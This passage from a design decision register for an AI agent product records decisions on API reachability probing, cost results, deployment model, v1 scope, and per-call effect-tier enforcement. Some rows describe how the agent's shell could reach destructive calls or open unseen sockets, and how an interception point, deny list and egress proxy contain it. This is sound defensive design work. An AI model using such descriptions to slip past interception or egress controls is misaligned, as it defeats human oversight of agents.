parsing remains far behind on every axis, with two of its eight mechanisms now known to be individually collapse-inducing rather than one. *Did not survive:* the claim of exactness at operation granularity, which is the granularity a tool catalogue actually needs. **So the amendment is to the justification, not the position: "exact" becomes "exact at path granularity; method-level discrimination is unresolved and is where every measured error lives" (U-39).** Demoting D-18 was considered and rejected — there is no better candidate, the alternatives are worse on the same axis, and a decision is not improved by withdrawing it in favour of nothing. **A scope limit rather than a demotion is the right instrument, and it has teeth**: a catalogue emitted against a target that publishes no schema may not attach verbs to paths on the strength of this mechanism alone, which is a product constraint D-18 now carries rather than an open question. Four amendments to the parts follow, marked inline. **OD-06 LAYERING AMENDMENT, 2026-08-02 — decided the same day, separately from the E15 amendment above, and it moves the parts rather than the position.** `plan.md` OD-06 settles where this mechanism runs: **the analysis layer emits a candidate set derived from source and nothing else, a stage above it annotates that set with what a named deployment serves, and synthesis consumes both.** Two artifacts, two lifecycles, two version streams. **Part 1 is re-worded below to name that boundary and to say *annotate* where it said *intersect*.** **Part 2 splits three ways**: the reachability half moves to the stage above; contract *validation* against a fetched schema stays in synthesis, because it is D-17 requirement (2) and yields a `validated` field rather than a derived value; and contract *derivation* from a fetched schema is deployment-derived, so it travels with the annotation and not with the code graph — costless to say now, because `extract_contracts.py` accepts no schema input and nothing is derived that way today (§2.4). **Part 3 does not migrate downward into analysis merely because it needs no network:** its input is a deployment's configuration and its output is a claim about one deployment, so folding it in would make the code graph vary with a deployment it does not describe. **Part 4 is unaffected**, having always sat above both, at runtime. **And the constitution's Additional Constraints requirement that the knowledge layer be *rebuildable from the codebase alone* survives unamended** — the seam resolves that conflict rather than legislating around it, and the dependency recorded under this table is discharged accordingly rather than deferred. **Four parts, and the order matters because part 3 is a fallback rather than an alternative.** (1) **Probe the running deployment and annotate the static candidate set with what it serves — in a stage above analysis, as a precondition of *emission* rather than a post-filter.** *Re-worded 2026-08-02 by OD-06; it previously read "intersect with the static candidate set, as a pipeline precondition," which describes a filter applied in place and fuses two artifacts that have to stay apart. "Precondition of the pipeline" also has to be read as precondition of emission, not of analysis, since analysis must run against committed fixtures and a fixture repository has nothing to probe.* `GET /openapi.json` over HTTP, credential-free, no privileged access, no in-process hook: **precision 1.0000 and recall 1.0000 on all eight configurations tested, dropping zero served operations anywhere**, with the gap to the tautological in-process route-table read exactly zero. It belongs upstream of synthesis and downstream of analysis (OD-06) because the candidate set is a multiple of the served surface — a factor of **3.1** at worst here — so a filter applied at the end is the component that decides the catalogue, and its input is a running deployment. **AMENDMENT to part 1** — *the fetch needs a state classifier in front of it.* Classify `/openapi.json` four ways before using it — `PRESENT`, `ABSENT` (404), `FORBIDDEN` (401/403), and **`EMPTY` (2xx carrying no paths)** — and never read any non-`PRESENT` state as "this deployment serves nothing." Measured **7/7**. The state that matters is `EMPTY`, because the obvious implementation — split on whether the fetch succeeded — is correct on 6 of 7 targets and reads a pathless 200 as `PRESENT`, emitting a catalogue of zero operations and reporting success. (2) **Fetch the target's schema once per deployment configuration and use it as an input for reachability *and* contracts, labelled as the OpenAPI-visible subset.** One fetch settles both questions; §2.4 carries the conditions. (3) **Configuration parsing is the fallback for targets that cannot be run, and it is priced as one.** Interprocedural concrete-value propagation over `ast` scored **1.0000 precision and 1.0000 recall on all seven pre-registered configurations**, which is a real result — and it needs **eight** individually switchable, framework-specific mechanisms to get there, **predicts zero operations with them disabled**, contained one mechanism that was dead code scoring as load-bearing, and is blind to environment in a way no further tuning addresses (U-35, U-38). Build it for un-runnable targets, quote **0.0000** as the untuned expectation, and never present it as equivalent to the probe. **AMENDMENT to part 3, on two points.** *The ablation claim above is wrong as originally propagated:* it is **either `M1_class_dispatch` or `M2_kwarg_flow`**, since `off-M2` predicts 2 operations of 324 at precision 0.0000. The error came from finding 010's prose naming only `M1` while its own committed table showed both — the finding's error, not the propagation's, and corrected wherever it appears. *And the population narrows:* configuration parsing is the fallback for targets that cannot be **run**, and specifically **not** for targets that cannot be **introspected**, which the schema-free probe handles at 1.0000 precision and 1.0000 recall on every schema state measured. (4) **Every emitted tool carries a path-level reachability precondition verified before first use** — not because it closes the gate, since on the pre-registered emission-time reading it does not move the number at all, but because a deployment's served set changes after the catalogue is generated, and a 404 at generation time is a support ticket while a 404 in front of a user is the product failing. The 404/405 discrimination works at path level at precision 1.0000 on all eight. **Two hard constraints on it: do not read the `Allow` header**, which under-reports served methods by 24–28% with no error and no signal; and **treat the check as *probably* side-effect-free rather than *provably* so**, because a probe designed not to invoke handlers invoked at least two (U-37). **AMENDMENT to part 4, on four points, and this is where most of E15 lands.** ① **Specify the probe verb as one no route in the target declares** — a fabricated token, not a real verb the operation happens not to use. That single change takes handler invocations from **13 to 0 across all seven targets**, and it makes the body-discrimination fix U-37 asked for unnecessary: do not build it. ② **Keep the `Allow` prohibition, on stronger evidence than it was written with.** The header is now measured wrong in *both directions* across three routers — Starlette under-reports and can name a *different route's* methods depending on registration order, Flask over-reports by unioning across matching rules, Django is exact only where the view declares — so a correction learned on one router makes another worse. ③ **Replace *probably side-effect-free* with the strongest supportable claim: *provably free of handler invocation, subject to a per-framework check that the router separates path matching from method matching, with middleware as an irreducible residue.*** Strictly stronger than what this row says and strictly weaker than side-effect-free; **the precondition cannot ship as side-effect-free on any framework.** ④ **A fifth constraint, new: the precondition must not be scored at operation granularity**, because a path-level probe cannot answer that question — 0.8000 where a path serves some methods and withholds others. Either it is stated as path-level, or it needs a method-level input, and **the only schema-free one available is the header ② forbids** (U-39). | **The gate was pre-registered and the reading that decides it was fixed in advance** — served-set precision ≥ 0.95 at catalogue-generation time, not at runtime, which is what keeps part 4 from passing tautologically. Three resolutions were scored against the target's own machine-generated route table under eight configurations, seven pre-registered and one post-hoc and labelled so everywhere; two of the seven exist only to falsify specific cheats, and both did their job. The probe wins on three grounds, each measured rather than argued: it is exact over the intersection with the recovered set; **it is the only arm exact on all eight**, including the environment-varied configuration where configuration parsing degrades to 0.9538 with a margin of less than one operation; and it costs one unauthenticated HTTP GET against eight framework-specific analysis mechanisms. The plan's own conditional — *"either the product requires a running instance to be accurate, or every emitted tool carries a runtime reachability check"* — resolves to the **first**, with the second adopted as a complement rather than as a substitute. **What this does not license:** one target, one framework, one language, one process. Both instrumentation defects are Starlette properties, the probe reaches one replica, and no deployment that withholds its schema was measured — U-34, U-36, U-37. **Updated 2026-08-02 by E15:** schema withholding is now measured four ways and changes nothing at path granularity; framework generality extends to **three Python routers, all of which answer 405 for a method mismatch**, which was U-37's specific fear and it did not materialise. What remains unlicensed is larger than what closed. Three routers is not framework generality — all three are Python WSGI/ASGI, and nothing here reaches Express, Rails, Spring, Go `net/http`, or gRPC, which has no method-mismatch concept at all. Four of the seven targets are the same application and the same router. The three non-FastAPI targets are **fixtures written for the experiment**, 8–10 operations each against `adk-python`'s 71, so they are existence proofs about specific route shapes and not precision estimates for those frameworks. **The one route shape that decides the precision gate was deliberately added**, so its existence is certain and its prevalence in real codebases is unmeasured. Middleware side effects were **argued, not observed** — none of the seven targets runs middleware that writes. `EMPTY` was produced synthetically. And U-36 is untouched: still one local process, no proxy, no gateway, no replica, and **a gateway answering 404 for unrecognised methods would invert every cross-framework result above.** | `plan.md` E14, E15; [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md); [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md); [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) §4; [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md); U-26; U-39; U-40; C-14 |
| D-19 | **The product claim is cheaper and safer, not more capable — and the emitted stack needs a general fallback** — **NEW 2026-08-02, from `plan.md` OD-07** | **The capability half of the thesis is not supported by the evidence and the production specification must not assert it.** Across the three families E7 scored, the curated tool surface **never wins on success rate**: lookups tie **27/27 against 26/27**, joins tie **9/10 against 10/10**, and the per-record family the shell baseline **wins 4/4 against 2/4** — the last of those measured *after* the treatment was repaired under OD-05, so it is not an artifact of an under-built tool set ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md)). **What replicated in every family is cost, and only cost: 5.06× cheaper per attempted lookup task (5.25× per solved), ~~2.8×~~ 2.20× per solved join, 9.3× on the two per-record tasks aggregation reaches** *(Join figure corrected 2026-08-03 from 2.8×; the lookup and join figures were also on different denominators and are now labelled. See [finding 009](../specs/001-discovery-validation/findings/009-ceiling-test.md) §Limb 1.)*, direction never reversing **wherever the arm succeeded at all** — which is the necessary qualifier, since across the whole per-record family the tool arm spent **$2.03 against the baseline's $1.06** by burning **$1.97** on the two questions no tool reached. **Three things follow, and the third is an architecture requirement rather than a claim.** (1) **Say "cheaper wherever a tool fits," quote the per-family figures, and never pool them** — OD-05 restructured E7 to report per family precisely because an average across these describes nothing, and the same prohibition governs the marketing sentence. (2) **Say "safer" only as an assumption under validation.** It rests on **one observation** and OD-07 attaches that as a non-optional honesty condition; see U-41, and do not restate it without the n. (3) **The emitted stack carries a general fallback path rather than synthesized tools alone.** A tool surface is a bet that the question falls inside it and the cost of losing that bet is total — three of four per-record failures were budget exhaustion, not wrong answers, against a shell arm that exhausted nothing in 31 scored attempts. **That is the part with a price attached elsewhere in this document: a general fallback pushes toward fusing the two agent classes, which §1.2 restatement 2 identifies as assembling the lethal trifecta by construction, so the specification must reconcile it against constitution Principle IV rather than inherit it silently** (C-15). **One synthesis-design constraint is licensed and it is worth more than the headline:** *tools that return answers help; tools that return records do not.* One aggregation tool moved a task from *exhausted 300,000 tokens and submitted nothing* to *answered in two turns at 1/35th the cost*, while a 20-tool surface that returns records lost the same family to a `jq` pipeline — and a naive one-tool-per-endpoint synthesis pass emits exactly that 20-tool surface (D-06, and §2 on promotion). | **Pre-registered, programmatic, and stopped by its own rules rather than by a reading of its results.** Every outcome was decided by a programmatic check against the application's observable state; no model judged any result. The verdict is per-family by owner decision made *before* the last two limbs ran (OD-05), and the treatment repair that produced the 2/4 was authorised under a task-blindness rule written into `PREREGISTRATION.md` before the tool existed, with file timestamps checkable. **Why there is no fuller answer rather than a fuller answer being declined on cost:** the primary metric is pinned at its ceiling — the tool arm sits at 1.00 on **27 of 41** measured tasks against a pre-registered calibration band of **0.25–0.85** — and OD-04 refused to swap the primary metric to rescue it, so the experiment as designed cannot answer its question and more n buys precision rather than information. There was also no authorised battery left to spend on: the 61-task intermediate composition is forbidden by OD-05, and OD-04's rebalance was halted by its own pre-declared stop condition. **$24.73 was spent against $120 authorised.** *(Spend-actually-incurred basis, four sessions as at OD-07; **$24.67** on committed artifacts alone — basis clarified 2026-08-03, see [VERDICT](../specs/001-discovery-validation/VERDICT.md) §6. **Superseded as a running total the same day**: two further E7 sessions take the artifact-exact total to **$35.0817**, and the $120 is still unspent.)* **What this does not license:** no pooled E7 verdict of any kind, by design; no claim that the fail-open mechanism generalises; and not retiring the thesis either — a consistent cost advantage that replicated across every family is a real result and a legitimate basis for a product, just not the one the experiment was built to test. Single attempt everywhere, ~~no noise floor~~ **a within-session noise floor that is a lower bound on the one [11](./11-validation-plan.md) §9.3 asks for**, one model, one target application (U-42). **AMENDED 2026-08-03 by findings 013 and 014, and the two halves of this row move in opposite directions.** **The cost half is better evidenced and more narrowly stated.** The lookup figure's cross-run provenance caveat is *discharged* — budget contributed a factor of **1.0000** and a paired re-run of the same 27 tasks in one run returns **4.366×**, statistically indistinguishable from the 5.06× — while the **9.3×** turns out to be a cross-run, cross-fingerprint pairing at n = 2 and stops being a range endpoint. The defensible within-session range is **2.20×–4.366×**, restated and flagged for the owner under §3.1 (U-46). **The safety half is withdrawn as stated, and this row is where it was stated.** Clause (2)'s *say "safer"* survives only for **hand-written** surfaces: [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md) shows the fail-open immunity is a property of a human declining to use the API's own filter, not of the tool abstraction, so **a synthesized tool over the same operation inherits the defect** and no detection mechanism exists or has been designed (C-18, C-14 fourth instance, D-21). The n = 1 caveat this row already carried is therefore not the binding limit on "safer"; the transfer question is. | `plan.md` OD-04, OD-05, OD-07; [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md); [finding 009](../specs/001-discovery-validation/findings/009-ceiling-test.md); [finding 008](../specs/001-discovery-validation/findings/008-ceiling-test-calibration.md); **[finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md); [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md)**; [07](./07-product-vision.md) §3.4; C-15; **C-18**; U-41; U-42; **U-45; U-46** |
| D-20 | **Deployment model: self-hosted first, with fully hosted preserved as a reachable option** — **NEW 2026-08-02, from `plan.md` OD-08, closing O-01** | **Ship self-hosted. Design so that fully hosted remains reachable later without a rewrite.** The binding half is the second sentence, and it is the half a register can get wrong, because shipping self-hosted is easy and the things that foreclose hosted are all defaults someone reaches for when there is exactly one tenant. **Four disciplines, enforced from the first commit rather than at a future migration.** (1) **Never assume co-location** — the network boundary between the pipeline, the runtime, and the target application MUST be explicit in the architecture even when all three are on `localhost`. (2) **Tenant and deployment identity are first-class from day one** — D-17 requirement (4) already requires deployment identity as data and OD-06 gives it a home on the reachability annotation, so **that requirement is now doing double duty and MUST NOT be relaxed on the grounds that a single-tenant deployment has only one of each.** (3) **No customer-specific path, hostname, or credential in an emitted artifact** — configuration arrives by environment-variable injection, which Principle IV already requires, and self-hosting must not become the excuse to shortcut it. (4) **Storage and the knowledge layer MUST be namespaceable** while exactly one namespace exists. **What this settles about the three things O-01 said fall out of it, and they land in three different places rather than one.** **Multi-tenancy is *deferred*, not absent, and the difference is the whole point** — [08](./08-auth-identity-and-secrets.md) §6.2's five isolation requirements (per-tenant DEKs, execution isolation, network isolation, per-tenant memory and knowledge stores, no warm-pool reuse across tenants) stop being *runtime obligations* on a single-tenant deployment and become *design constraints* under discipline 4; dropping them is a foreclosure, not a simplification. **The credential architecture has its custody half discharged by construction and its confused-deputy half untouched** — see the note under this table. **The iframe tier is deferred with the hosted model**, not shipped ahead of it: untrusted end-user input reaching an agent holding shell access and write tools is the lethal trifecta in full, and OD-07's fallback requirement makes that agent *more* capable rather than less (C-15, D-08, O-05). | **A commercial decision taken on three technical grounds, all of them results from the same day rather than preferences.** **Reachability is needed twice, not once** — E14 and E15 make a running deployment an input to *analysis*, and the runtime needs the same reach again at *execution* time to invoke anything at all; co-location makes both free while a hosted model crosses a customer network boundary twice. **OD-07 requires a general fallback path**, meaning shell alongside synthesized tools, and shell inside the customer's trust boundary is a categorically different risk from shell in our multi-tenant one (D-19, C-15). **Credentials never leave the customer's boundary**, which removes the concentrated-custody failure [08](./08-auth-identity-and-secrets.md) §6.1 calls "the scenario that ends the company." **The costs are recorded as accepted rather than overlooked: harder monetization, no telemetry, slower iteration, harder support.** The telemetry one has a register consequence nobody had to point out — with no telemetry, every drift and re-probe trigger O-04 must choose between has to run on the customer's box. **What this does not license:** it is not a claim that self-hosting is *safer* in general. It relocates risk from us to the customer and removes cross-customer blast radius; it does nothing to the intra-tenant confused deputy, and it makes a standing production credential *more* likely to be network-reachable from an agent shell, because co-location is now the default rather than the exception (D-07, [08](./08-auth-identity-and-secrets.md) §4.3). | `plan.md` OD-08, OD-07, OD-06; [08](./08-auth-identity-and-secrets.md) §6.1, §6.2, §8.1, §9; [07](./07-product-vision.md) §3.6, Q3; [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md); [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md); D-04, D-07, D-08, D-17, D-19; O-01; C-15 |
| D-21 | **v1 is a spec-aware runtime, a contract-derived verifier, and drift detection. Synthesis, promotion selection, effect classification and decomposition-into-agents are v2** — **NEW 2026-08-02, from `plan.md` OD-09. The largest scope decision this project has made** | **The product is roughly a tenth of what §2 describes, and it was re-scoped by a criterion written before any experiment ran.** [11](./11-validation-plan.md) §7 pre-registered that if the shell-plus-spec baseline landed within 5 points of hand-written ideal tools, *"the product is a spec-aware runtime plus a verifier plus drift detection — real, but ~10× smaller than the current plan. Re-scope before proceeding."* It fired in all three families, and in two the baseline was ahead. **What v1 is:** an agent pointed at the target's own specification (the served-operation set from D-18) holding general tools; a verifier built from contracts derived from the code (D-09); and detection of drift in both the source and the deployment, which move on two clocks (O-04, D-18). **What leaves v1, all of it still correct about v2:** tool synthesis, promotion selection, effect classification *as a static label*, decomposition-into-agents, boundary inference, and the MCP export adapter. **Synthesis leaves carrying both of its numbers** — ~~2.8×–9.3×~~ ~~2.2×–9.3×~~ **2.20×–4.366× within session** cheaper wherever it succeeds *(lower bound corrected 2026-08-03; this row was the last site in the corpus still carrying the superseded 2.8× after the 2026-08-03 sweep, and it is corrected here rather than left to be found again. **Upper bound narrowed later the same day and this row was again the last site still asserting the wider range**: the 9.3× is a cross-run, cross-fingerprint, n = 2 pairing and is demoted from a range endpoint to a direction-only observation — see the §3.1 OWNER FLAG and U-46. The recurrence is itself the finding: this row keeps being the last one updated, so check it first next time)* — *and the 2026-08-03 propagation of [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) did check it first, found the cost figures correct as written, and amended the row for a different reason; see amendment (4). Three consecutive sweeps have now ended here, which suggests the note is doing its job and should stay*, and outside its surface the tool arm burns its whole budget and returns nothing (D-19, OD-07). **⚠️ The range is restated again on 2026-08-03 by the drift analysis below, and that restatement is flagged for the owner rather than applied silently — see the boxed note under this table and `plan.md` OD-07.** **Three things this decision does not do, and each is a place a reader is likely to over-apply it.** It does not shrink the loop-safety build: OD-01's 2.5–3.5 weeks is unchanged, and a runtime needs those primitives more than a generator does, so the largest item on the critical path is now a much larger *fraction* of v1. It does not relieve the trifecta pressure OD-07 created — with no synthesized surface, the general fallback path is not an escape hatch beside curated tools, it is the entire tool surface, which sharpens C-15 rather than mooting it. And **it does not defer the safety obligation along with the differentiator**: see D-22, which is the one clause of OD-09 propagated with a flagged narrowing. **Four amendments 2026-08-03 — the first three from [finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md) and [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md), the fourth from [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) — and they pull in opposite directions: the efficiency case gets *stronger* evidence and a *narrower* range, the safety case is withdrawn, and a verification liability is added.** **(1) The provenance caveat on the lookup cost figure is DISCHARGED — not narrowed, not superseded — and the figure is not revised.** The caveat U-42 recorded was that the lookup pairing was cross-run at a realized 6× budget asymmetry rather than the committed 3×, so the shell arm might simply have been given more room and spent it. Budget's contribution to the ratio is a factor of **1.0000**, measured by a single-variable diagnostic that re-ran the tool arm's old surface at the new budget and moved its spend by zero tokens on two tasks and three on the third. A budget that never binds cannot inflate the arm it does not bind, and neither arm exhausted anything in 27 attempts. The re-run figure is **4.366×** on a paired run at one fingerprint, the historical **5.059×** sits inside that run's bootstrap interval of **[3.384, 5.423]**, and finding 014 forbids reporting the movement between them as a difference at all. So "cross-run and 6×-mismatched" stops travelling with the number as an open threat and starts travelling as a closed one: *measured, and the mismatch did nothing.* **(2) The v2 cost model gains a per-tool term, which is the first thing here a synthesizer can be designed against.** Each tool on the surface costs a near-constant **541 to 557 tokens per request** — modally 553 — on every task it does not help, because its schema is resent every turn; the twenty-first tool alone moved the pooled lookup ratio by a factor of **0.9109**. On the tasks it *does* help the rebate dwarfs the tax: one aggregation call took `R2.003` from three turns to two and `R4.014` from budget-exhausted to answered. **A synthesized surface pays the tax per tool with no guarantee of the rebate**, which is the cost-side statement of the same rule D-19 states as *tools that return answers help; tools that return records do not*, and it is why promotion selection is a cost mechanism and not only a usability one. **(3) A second liability, of a different kind from the first, and it withdraws the safety half of D-19 as stated** ([finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md)). The fail-open immunity that made the curated surface look *safer* is **an artifact of human tool authorship, not a property of the tool abstraction**. `search_recipes` never passes `category` to the vulnerable query parameter at all — it fetches details and filters client-side — so the fail-open path is structurally unreachable through the tool, which is a stronger claim than "the tool arm got it right five times" and needs no rate. But that specific decision, *declining to use the API's own filter and reimplementing it*, is one a generator has no basis for making. A tool synthesized from `GET /api/recipes` would wrap `categories`, because it is a documented parameter on a documented operation and exactly the kind of thing a promotion pass selects, and it would inherit the defect precisely as the shell agent did. **The efficiency case is unchanged; the safety case does not transfer to a generated stack absent an explicit mechanism for detecting fail-open parameters, and no such mechanism exists or has been designed** (C-18, C-14 fourth instance). **(4) A verification liability, added 2026-08-03 from [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md), and it points the same way as (2) and (3): what leaves v1 does not leave harmless.** Measured against this target, **a verifier derived from the published schema reaches zero value errors.** The schema arm returns `unverifiable` on 69 of the 75 records it scored — `UNV_c1` = 92.0% against a preregistered 50% ceiling — **no clause of it compares a magnitude to anything**, and its only marginal catches come from a liveness clause whose own provenance field reads `submit contract` rather than the schema, checking merely that the trace contains a terminal submission. Its single genuinely schema-derived fire was **wrong**, and corpus-wide that clause is right 0 of 3 times (C-19). **The consequence for v2 is structural rather than a tuning problem.** The false-success class is *defined* by wrong-but-well-typed values, so a checker that validates shape cannot reach it by construction, and no better schema and no more clauses change that. Catching it requires **an independent recomputation path** — a postcondition derived from the application's declared fields and compared against what the agent submitted, which is what arm c2 is and what it detects 10 of 10 eligible false successes with. **So a v2 synthesis layer that emits schema-level checks alongside each synthesized tool emits a verifier that cannot see the failure class the product is sold on**, and the recomputation path it would need is a second derivation against the application's API rather than a second pass through the same contract. Note the direction of travel: this is the *third* consecutive amendment in which something OD-09 deferred turns out to carry an obligation that does not defer with it — the effect-tier interception point (D-22), the fail-open detector (C-18), and now the recomputation path. | **A pre-registered pivot criterion fired, which is the strongest form this evidence could take and the reason it is a decision rather than a debate.** ~~The criterion was written into [11](./11-validation-plan.md) §7 before Phase 0 ran, so it cannot be accused of being fitted to the result.~~ **Measured** ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md)): lookups 26/27 baseline against 27/27 tools — **3.7 points apart, inside the 5-point band**; joins 10/10 against 9/10 — **baseline +10**; per-record 4/4 against 2/4 — **baseline +50**. **The honesty condition travels with the decision and is not optional.** E7's own mis-calibration rule also fired — the tool arm sits at 1.00 on 27 of 41 tasks against a pre-registered 0.25–0.85 calibration band — so **the two tied families support no conclusion in either direction**, and the re-scope rests on **one properly calibrated family at n = 4**, single attempt, one model, one target application (U-42). A decision this large resting on n = 4 is a real exposure and is recorded as one. **What this does not license:** it is not evidence that synthesis has no value — the cost result replicated in every family — and it is not a retirement. It is the pre-registered response to the pre-registered condition, taken on schedule. | `plan.md` OD-09, OD-04, OD-05, OD-07; [11](./11-validation-plan.md) §7, §8; [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md); [finding 009](../specs/001-discovery-validation/findings/009-ceiling-test.md); **[finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md); [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md); [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md)**; D-19; D-22; C-15; C-16; **C-18; C-19**; U-42; **U-45; U-46; U-47**; P-02; P-03 |
| D-22 | **Effect tiers are resolved per call at a blocking interception point in v1, because Principle IV binds tools OD-09 does not remove** — **NEW 2026-08-02. This is a narrowing of `plan.md` OD-09 and is flagged as one rather than propagated silently. ⚠️ AMENDED 2026-08-03 by `plan.md` OD-10 — the point stands and its disposition table collapses from four rows to two; read the amendment at the end of this cell before clauses ③ and ⑤** | **OD-09 says effect classification defers with synthesis. That is right about the *differentiator* and wrong about the *obligation*, and this row carries the difference.** Constitution Principle IV (NON-NEGOTIABLE) requires **every emitted tool** to be classified read-only, reversible-write, or irreversible/destructive, with the tier enforced by an interception point that can block. **OD-09 removes the synthesized tools; it does not remove the emitted tools.** v1 emits a shell and an HTTP client, both pointed at a live target holding real data, so `curl -X DELETE` is inside the v1 capability set on day one. Principle IV therefore bites, and it bites harder than before, because the deferred design at least had a label to check. **The decision:** ① tiers are resolved **per call, from the call**, not per tool — a shell is not classifiable at the tool level, since `curl` is read-only or destructive depending on its argv; ② the resolution source is the **request's own HTTP verb matched against the served-operation specification**, which D-18's reachability fetch already produces, giving `GET`/`HEAD`/`OPTIONS` → read-only, `POST`/`PUT`/`PATCH` → reversible-write, `DELETE` → irreversible **for free**; ③ everything else — unmatched paths, shell, opaque argv — is **`UNKNOWN`**, and `UNKNOWN` gates rather than defaulting either way; ④ deterministic deny rules resolve **before** any permissive or auto-approval mode, per the Codex Auto-review pattern (§2.9); ⑤ the human sees the **resolved** request — the actual method, URL and body — not the model's description of it (D-07 non-negotiable 5); ⑥ the credential broker sits **behind** the interception point, so nothing reaches a resource-plane secret without passing the tier check (§2.1 diagram). | **Three things had to be true together for this to be a narrowing rather than a disagreement, and they are.** (1) *Principle IV's subject survives the pivot.* It binds emitted tools, not synthesized tools; OD-09 changes which tools are emitted, not whether any are. (2) *A defensible tier is actually available at v1 cost.* This is the part that could have gone the other way. A published schema hands over the verb, D-18 already fetches it once per deployment configuration, and the verb→tier mapping is a table lookup — **so the crude classification is not merely possible, it is nearly free**, which removes the only good argument for deferring it. (3) *The alternative readings are both untenable.* Reading Principle IV as not biting requires holding that a tool capable of `DELETE` against production is exempt from a principle written for exactly that case. Reading D-16 literally forbids all v1 writes, which OD-09 did not decide. **What this classification is not, stated so nobody quotes it as more than it is.** It is **crude** — an HTTP verb is a convention, `POST /purge` is irreversible, and `GET /export?destroy=1` exists in the wild; so verb-derived tiers are a floor on caution, never a licence, and only the irreversible tier is safe to act on unreviewed. It is **unvalidated** — no precision figure is claimed, and D-16's 0.98 gate is not satisfied by it and was never about it. And it is **strictly weaker than the deferred static version in one respect that must not be smoothed over**: a static label over a fixed catalogue supports a *compile-time* trifecta check, decidable before the agent runs, while a per-call tier over a general shell supports only a runtime one, so §2.5's `no_trifecta` invariant has no v1 counterpart (C-16, §7.6). ~~**Net: v1 can perform writes, and only through this point.**~~ **AMENDMENT, 2026-08-03 — `plan.md` OD-10. v1 performs no writes at all, and this point is what enforces that.** Three clauses change and the rest of the row stands. **Clause ③ hardens:** `UNKNOWN` no longer "gates", it **denies** — and so do the reversible-write and irreversible tiers, so the disposition table is *resolved read-only → allow, everything else → deny with a legible reason*. **Clause ⑤ goes dormant:** there is no resolved request for a human to see at runtime, because nothing escalates; that machinery is deferred with writes rather than deleted (D-07 non-negotiable 5, D-15). **And the word this row leans on is defined rather than proved:** *resolved read-only* means a safe method in the served-operation specification D-18 fetches, minus a deny list of known side-effecting reads (`?destroy=`, export-with-side-effect, RPC-over-GET). It is a stated rule set and it is unvalidated (U-43); **"provably read-only" is not a claim v1 may make.** **Why this is a hardening and not a retreat:** the "crude, unvalidated, strictly weaker" paragraph above was the price of permitting writes on an unmeasured classifier, and OD-10 declines to pay it — it takes the first branch of a rule pre-registered in [11](./11-validation-plan.md) §7 Phase 5 before any experiment ran (*precision < 0.98 → read-only v1, enforced structurally at the network layer, not by classification*), which is the same footing D-21 stands on. **What it does not fix:** the trifecta. Read-only cuts the destructive-action limb and leaves egress untouched, so C-16 narrows rather than closes — see that row. **Net: v1 performs no write, and the only misclassification that can cost integrity is a side-effecting endpoint reached by a safe method.** **⚠️ TWO LIMITS ADDED 2026-08-03, later the same day, and neither is a change to the row's decision — they are boundaries on what it may be cited for (C-17, §2.6).** ① **This point does not control egress and must not be quoted as if it did.** §2.6's ladder sends *unmatched egress* to `UNKNOWN`, which under OD-10 denies, and that looks like egress control. It is not: the gate sees argv, and any shell command it *allows* can open a socket it will never see. Egress is a network-layer property and Principle IV puts it in a **different bullet** — *network allowlisted to named hosts* — which v1 does not satisfy (C-17). ② **The ladder never resolves a shell command to `read_only`**, so read literally with OD-10's disposition table it denies every shell command v1 issues, nullifying OD-07's general fallback path. ~~That incoherence is unresolved and is an owner question, drafted at `plan.md` OD-12 (proposed).~~ **✅ RESOLVED 2026-08-03 by `plan.md` OD-12 — and the resolution relocates this row's own subject, so read the next paragraph before citing any clause above.** **AMENDMENT, 2026-08-03 (later the same day) — `plan.md` OD-12. The decision stands; the interception point moves out of the process.** Clause ① said tiers resolve *per call, from the call*; that is unchanged, and **where** it happens is now a mandatory egress proxy that every outbound byte from the sandbox traverses, enforcing the destination allowlist and the method allowlist together. **Three effects.** **Limit ① above is discharged rather than merely respected**: this point *does* control egress now, because it is no longer an application-layer check inside the process — but note carefully that it discharges it by *becoming a different component*, and the in-process reading of this row must not be cited as if it had ever controlled egress. **Limit ② is dissolved**: nothing classifies a shell command, because the proxy sees shell-originated and client-originated requests identically, so **v1's shell executes** and OD-07's general fallback path is intact (§2.6 carries the replaced ladder). **Clause ⑥ is strengthened and its sibling appears**: the credential broker sits behind the interception point, and now so does the network — the proxy must sit outside the sandbox with no write path from the agent to its configuration, on the same reasoning. **What does not change:** the classification is still crude, still unvalidated (U-43, whose measurement moves to the proxy without being taken), and **"provably read-only" is still not a claim v1 may make.** | `.specify/memory/constitution.md` Principle IV bullets 1–2 (**v1.2.0**); `plan.md` OD-09, OD-10, OD-07, **OD-12**, **OD-13**; [11](./11-validation-plan.md) §7, §8; D-16; D-06; D-07; D-15; D-18; D-21; C-15; C-16; **C-17**; U-43; **U-44**; §2.4; §2.6; §2.9; §7.6 |

> ## ⚠️ OWNER FLAG, 2026-08-03 — OD-07's cost range is restated, and the restatement is not applied silently
>
> **The question.** [Finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md) reports an unexplained between-session shift and says plainly that it is *"blocking for every cross-session comparison in this feature"*, naming the E7 cost result. OD-07's cost advantage is the load-bearing survivor of the pivot, so it was re-derived from the committed per-attempt rows rather than from any prose. **The advantage survives. The range does not survive as written.**
>
